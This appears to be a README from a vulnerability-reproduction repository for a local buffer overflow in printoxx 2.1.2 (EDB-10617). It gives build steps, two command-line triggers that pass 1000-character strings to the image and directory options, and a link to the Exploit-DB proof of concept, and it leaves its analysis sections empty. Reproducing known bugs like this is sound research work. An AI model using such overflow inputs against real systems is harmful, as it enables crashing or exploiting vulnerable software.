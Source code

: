 # EDB-10617

## Experiment Environment

Ubuntu 11.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/blob/master/EDB-10617/printoxx-2.1.2.tar.gz
tar -xvf printoxx-2.1.2.tar.gz
cd printoxx-2.1.2
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
Image filename overflow:
 
./printoxx -i $(python -c 'print "A"*1000')
 
Directory filename overflow:

./printoxx -f $(python -c 'print "A"*1000')
```

## PoCs

[Printoxx - Local Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/10617/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

## References

